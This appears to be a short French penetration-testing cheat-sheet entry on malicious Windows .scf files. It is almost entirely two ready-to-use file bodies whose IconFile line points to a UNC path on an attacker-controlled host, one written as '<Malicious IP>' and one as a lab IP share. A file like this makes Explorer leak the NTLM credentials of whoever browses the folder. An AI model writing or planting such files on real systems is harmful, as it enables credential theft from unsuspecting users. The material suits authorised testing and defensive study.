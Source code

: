 # Fichier .scf

## creer un fichier .scf contenant:

```
[Shell]
IconFile=\\<Malicious IP>\icon
```

## variante:

```
[Shell]
Command=2
IconFile=\\192.168.1.20\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
